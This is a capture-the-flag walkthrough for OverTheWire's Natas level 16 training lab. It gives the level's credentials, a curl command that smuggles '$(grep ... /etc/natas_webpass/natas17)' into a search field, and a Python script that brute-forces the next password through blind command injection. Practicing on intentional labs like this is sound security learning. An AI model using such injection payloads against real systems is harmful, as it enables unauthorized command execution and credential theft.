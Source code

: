 ### natas16

```
natas16
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
http://natas16.natas.labs.overthewire.org/index.php
```

**Vuln:**

    curl -s -H "Authorization: Basic `echo -n 'natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh' | base64`" http://natas16.natas.labs.overthewire.org/index.php -d 'needle=$(grep e /etc/natas_webpass/natas17)zoomed&submit=Search'

Exploit:

```
cat > natas16-exploit.py <<EOF
import httplib
import urllib
import base64
import json
import re
import binascii
import string

user = "natas16"
passwd = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

authToken = urllib.quote(base64.b64encode(user + ":" + passwd))

headers = {
    "Content-type": "application/x-www-form-urlencoded",
    "Authorization": "Basic " + authToken,
}

# connection via proxy
conn = httplib.HTTPConnection("127.0.0.1", 8080)

key=""
keyLen = 32
keychars = ""

# get alphabet
for c in string.ascii_letters + string.digits:
    payload = '$(grep %s /etc/natas_webpass/natas17)zoomed' % (c)
    params = urllib.urlencode({'needle': payload, 'submit': "Search"})
    conn.request("POST", "http://natas16.natas.labs.overthewire.org", params, headers)
    resp = conn.getresponse().read()
    # current character (c) present in they key:
    if resp.find("zoomed") == -1:
        keychars += c

for i in xrange(0, keyLen):
    for c in keychars:
        candidate = key + c
        payload = '$(grep ^%s /etc/natas_webpass/natas17)zoomed' % (candidate)
        params = urllib.urlencode({'needle': payload, 'submit': "Search"})
        conn.request("POST", "http://natas16.natas.labs.overthewire.org", params, headers)
        resp = conn.getresponse().read()
        # current character (c) present in they key
        if resp.find("zoomed") == -1:
            key += c
            print key
            break

```